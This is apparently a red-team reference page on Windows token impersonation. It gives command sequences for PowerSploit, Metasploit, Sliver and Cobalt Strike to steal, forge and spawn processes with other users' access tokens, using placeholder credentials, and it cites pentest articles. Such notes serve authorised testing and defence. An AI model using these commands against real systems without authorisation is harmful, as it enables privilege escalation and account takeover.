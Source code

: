 # Token Impersonation

## 01 - Powersploit

TODO: Write more information related to this powersploit module

`PS C:\> Invoke-TokenManipulation -Enumerate`

`PS C:\> Invoke-TokenManipulation -ImpersonateUser -UserName "<domain_name>\<username>"`

## 02 - Metasploit

- Steal Token

```
meterpreter > steal_token <pid>

meterpreter > getuid

meterpreter > getpid

meterpreter > drop_token
```

- Make Token

```
meterpreter > run post/windows/manage/make_token domain=<domain_name> username=<username> password=<password>

meterpreter > getuid

meterpreter > getprivs

meterpreter > rev2self
```

## 03 - Sliver

- Make Token

```
sliver (IMPLANT_NAME) > make-token -u <username> -d . -p <password>

sliver (IMPLANT_NAME) > execute -T -o <commands>
```

## 04 - Cobalt Strike

- Steal Token

```
beacon> steal_token <pid>

beacon> getuid

beacon> getprivs

beacon> rev2self
```

- Make Token

```
beacon> make_token <domain_name>\<username> <password>

beacon> getuid

beacon> getprivs

beacon> rev2self
```

- SpawnAs

```
beacon> spawnas <domain_name>\<username> <password>

beacon> getuid
```


---
## References

- [Token Stealing and Incognito](https://pentestlab.blog/2012/08/07/token-stealing-and-incognito/)

- [Demystifying Cobalt Strike’s “make_token” Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)

- [Helpsystems: Cobalt Strike Privilege Escalation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/post-exploitation_privilege-escalation.htm)